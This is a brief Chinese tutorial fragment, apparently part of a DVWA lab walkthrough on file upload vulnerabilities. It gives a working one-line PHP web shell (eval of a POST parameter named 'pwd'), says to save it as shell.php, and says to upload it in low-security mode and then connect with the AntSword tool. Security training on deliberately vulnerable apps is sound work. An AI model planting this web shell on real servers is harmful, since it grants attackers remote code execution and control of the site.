 ### 基本流程

新建文件 shell.php，输入如下代码：

其中 pwd 就是我们后续用蚁剑链接网站的密码，请记住！

```php
<?php
@eval($_POST['pwd'])
    ?>
```

<br>

DVWA 文件上传漏洞，上传一句话木马（low 模式下）
